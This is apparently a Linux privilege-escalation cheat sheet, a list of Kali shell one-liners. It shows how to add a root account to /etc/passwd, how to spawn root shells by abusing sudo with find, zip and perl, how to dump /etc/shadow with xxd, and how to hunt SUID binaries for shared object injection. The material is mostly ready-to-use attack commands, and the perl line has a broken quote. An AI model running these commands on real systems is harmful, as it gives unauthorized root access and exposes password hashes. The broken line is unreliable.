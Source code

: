 ```
root@kali:~$echo "motasem:aadiOpWrzh6/U:0:0:motasem:/root:/bin/bash" >> /etc/passwd
```

#### Use 'awk' to execute sys commands

```
root@kali$:awk 'BEGIN {system("command")}'
```

#### Escalate privilege using find command

```
root@kali$:sudo find /home -exec /bin/bash \;
```

#### Execute command through ZIP:

```
root@kali$:sudo -u root zip /path-to-some-zip-file /path-to-output -T --unzip-command="sh -c /bin/bash"
```

#### Execute sys commands using python

```
root@kali$:python -c 'import os; os.system("command")'
```

#### Escalate privilege using find command

```
root@kali$:sudo find /home -exec /bin/bash \;
```

#### Perl one liner for privilege escalation

```
root@kali$:sudo perl -e 'exec' "/bin/bash";'
```

#### Hex dump of shadow file

```
root@kali$:xxd /etc/shadow | xxd -r
```

#### Shared Object Injection

**Looking for binaries with SUID /SGID bit set**

```
root@kali:find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

**Picking a binary and finding if it uses system calls to shared objects**

The binary here is /usr/local/bin/suid-so

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
